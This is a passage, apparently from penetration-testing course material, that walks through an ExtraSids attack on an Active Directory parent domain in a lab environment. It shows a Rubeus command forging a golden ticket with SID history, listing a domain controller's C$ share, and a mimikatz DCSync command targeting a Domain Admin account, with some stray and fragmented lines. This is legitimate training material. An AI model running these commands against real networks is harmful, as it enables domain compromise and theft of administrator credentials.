 We can confirm that the Kerberos ticket for the non-existent hacker user is residing in memory.

#### Confirming a Kerberos Ticket is in Memory Using klist
```powershell-session
PS C:\htb> klist
```
```powershell-session
Cached Tickets: (1)
```

From here, it is possible to access any resources within the parent domain, and we could compromise the parent domain in several ways.


#### Listing the Entire C: Drive of the Domain Controller

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```
Set-Location \\academy-ea-dc01.inlanefreight.local\C$


-------

## ExtraSids Attack - Rubeus

#### Using ls to Confirm No Access Before Running Rubeus
```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
```

#### Creating a Golden Ticket using Rubeus
```powershell
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
`klist`
performing a DCSync attack against the parent domain, targeting the `lab_adm` Domain Admin user.

#### Performing a DCSync Attack
```powershell
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```
